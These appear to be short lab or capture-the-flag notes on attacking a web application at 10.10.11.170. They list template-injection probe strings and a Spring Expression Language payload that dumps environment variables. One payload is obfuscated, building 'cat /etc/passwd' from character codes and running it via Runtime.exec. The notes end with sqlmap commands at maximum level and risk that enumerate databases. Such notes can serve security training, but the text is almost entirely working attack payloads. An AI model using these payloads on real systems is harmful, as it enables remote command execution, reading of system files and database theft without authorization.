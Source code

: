 
```
{{7*7}}
${7*7}
<%= 7*7 %>
${{7*7}}
#{7*7}
```

> {T(java.lang.System).getenv()}

Get /etc/passwd
> ${T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(99).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(32)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(101)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(99)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(112)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(119)).concat(T(java.lang.Character).toString(100))).getInputStream())}

### sqlmap

--level=5 highest level
--risk=3 highest level 
--batch - run without asking any questions

sqlmap -u http://10.10.11.170:8080/ --batch


sqlmap -u http://10.10.11.170:8080/stats?author=woodenk --level=5 --risk=3 --batch



Enumerate databases
> sqlmap -u http://10.10.11.170:8080 --level=5 --risk=3 --batch --dbs
